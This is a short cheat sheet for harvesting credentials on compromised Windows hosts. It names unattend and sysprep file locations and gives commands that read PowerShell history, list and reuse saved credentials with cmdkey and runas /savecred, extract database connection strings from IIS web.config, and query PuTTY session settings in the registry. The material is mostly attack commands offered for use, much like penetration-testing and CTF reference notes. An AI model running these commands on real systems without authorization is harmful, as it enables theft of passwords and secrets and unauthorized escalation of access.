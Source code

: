 **Harvesting Passwords from Usual Spots***

- C:\Unattend.xml
- C:\Windows\Panther\Unattend.xml
- C:\Windows\Panther\Unattend\Unattend.xml
- C:\Windows\system32\sysprep.inf
- C:\Windows\system32\sysprep\sysprep.xml

**Powershell History**

CMD.EXE
```shell-session
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt


cat %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

**Saved Windows Credentials**

```shell-session
cmdkey /list
```

Use The user from cmdkey:

```shell-session
runas /savecred /user:test cmd.exe
```

**IIS Configuration**

- C:\\inetpub\wwwroot\web.config
- C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

Here is a quick way to find database connection strings on the file:

```shell-session
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

**Retrieve Credentials from Software: PuTTY**

```shell-session
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```
Just as putty stores credentials, any software that stores passwords, including browsers, email clients, FTP clients, SSH clients, VNC software and others, will have methods to recover any passwords the user has saved.